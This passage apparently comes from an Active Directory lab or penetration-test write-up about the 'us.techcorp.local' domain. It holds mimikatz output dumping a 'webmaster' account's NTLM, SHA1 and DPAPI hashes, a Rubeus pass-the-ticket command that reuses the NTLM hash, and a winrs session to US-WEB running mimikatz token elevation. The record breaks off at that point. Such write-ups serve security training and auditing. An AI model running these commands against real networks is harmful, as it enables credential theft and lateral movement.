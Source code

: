 ```powershell
        msv :
         [00000003] Primary
         * Username : webmaster
         * Domain   : US
         * NTLM     : 23d6458d06b25e463b9666364fb0b29f
         * SHA1     : 550eec32c85e0ab442b036fadc5ada63b6c188d0
         * DPAPI    : 05848a77d9cb65860c7e4cb8f8503d2c
        tspkg :
        wdigest :
         * Username : webmaster
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : webmaster
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```
# 10. Rights, Privileges and Permissions of `us\webmaster`
## 10.1 Access Rights
- The name of the account implies that it has administrative privileges at `US-WEB`.
- Since we now have the credentials for `us\webmaster` account we can impersonate it by requesting a TGT, similarly as before, in a sacrificial session.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:webmaster /rc4:23d6458d06b25e463b9666364fb0b29f /domain:us.techcorp.local /ptt

<snip>
```
- We can now check if we have remote access to domain computers.
```powershell
PS C:\Auditor> ipmo .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\Auditor> Find-PSRemotingLocalAdminAccess
US-Web
```
- As expected from the name of the GMSA, `us\webmaster` can remotely access `US-WEB`.
## 10.2 Account Privileges
- This account has administrative privileges on `US-WEB`.
## 10.3 Account Permissions
- No interesting permissions have been discovered for this domain account.
# 11. Extracting Credentials and Tokens from `US-WEB`
- We can now access `US-WEB` and attempt to steal credentials and tokens.
```powershell
PS C:\Auditor> winrs -r:us-web.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\webmaster> .\mimikatz.exe
.\mimikatz.exe

<snip>

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
```